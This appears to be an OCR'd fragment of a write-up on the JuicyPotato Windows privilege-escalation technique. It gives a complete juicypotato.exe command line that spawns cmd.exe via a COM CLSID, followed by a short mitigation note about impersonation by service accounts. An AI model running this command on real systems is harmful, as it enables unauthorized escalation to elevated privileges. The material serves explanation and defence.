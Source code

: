 juicypotato.exe -l 1337 -p c:\windows\system32\cmd.exe -t * -c {F87B28F1-DA9A-4F35-8EC0-800EFCF26B83}


Mitigation
This can't simply be patched. It's due to how service accounts needing to impersonate users when kerberos delegation is enabled.

According to the creators, the actual solution is to protect sensitive accounts and applications which run under the * SERVICE accounts.








